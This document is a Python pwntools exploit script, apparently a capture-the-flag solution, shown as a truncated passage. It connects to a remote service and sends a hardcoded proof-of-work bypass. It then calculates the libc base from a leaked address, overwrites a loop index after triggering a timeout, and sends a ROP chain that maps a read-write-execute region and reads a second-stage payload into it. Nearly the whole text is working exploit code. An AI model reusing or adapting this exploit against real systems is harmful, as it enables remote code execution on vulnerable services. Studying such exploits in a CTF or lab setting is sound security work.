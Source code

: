 ```python


#
# FUNCTIONS
#
def send_rop(rop):
    # Skip the first byte because of alignment
    rop = rop[1:]
    # send 16 bytes at a time
    for i in range(0, len(rop), 16):
        payload = rop[i:i+16]
        if len(payload) < 16:
            payload = payload.ljust(16, b"\x00")
        io.sendafter(b"> ", payload)
    io.sendlineafter(b"> ", b"END")

#
# EXPLOIT
#
def exploit(HOST, PORT):
    global io
    io = remote(HOST, PORT)

    POW_BYPASS = b'99:27363338f2bb7c3efbe621c882dea0af'

    if args.REMOTE:
        io.sendlineafter(b"Result: ", POW_BYPASS)

    # Libc leak
    io.recvuntil(b"hint: ")
    libc.address = int(io.recvline(False), 16) - libc.sym["read"]
    success(f"libc base: {hex(libc.address)}")

    info("Waiting for first timeout to interrupt the read...")

    # Overwrite of index used in the loop
    io.sendlineafter(b"hurry up!\n", b"\x04" + b"A"*8)

    success("Timeout triggered, sending ROP chain...")

    # ROP chain
    rop = p64(libc.address + INIT_GADGET)
    # mmap(0x31337000, 0x1000, 7, 0x22, -1, 0)
    rop += p64(libc.address + POP_RDI)
    rop += p64(0x31337000)
    rop += p64(libc.address + POP_RSI)
    rop += p64(0x1000)
    rop += p64(libc.address + POP_RDX_RBX_R12_RBP)
    rop += p64(7) * 4
    rop += p64(libc.address + POP_RAX)
    rop += p64(0xffffffff)
    rop += p64(libc.address + XOR_R8D_R8D)
    rop += p64(libc.address + XOR_R8D_EAX_POP_RBX_R12_RBP)
    rop += p64(0xdeadbeef) * 3
    rop += p64(libc.address + POP_RCX)
    rop += p64(0x22)
    rop += p64(libc.sym["mmap"])
    # read(0, 0x31337000, 0x1000)
    rop += p64(libc.address + POP_RDI)
    rop += p64(0)
    rop += p64(libc.address + POP_RSI)
    rop += p64(0x31337000)
    rop += p64(libc.address + POP_RDX_RBX_R12_RBP)
```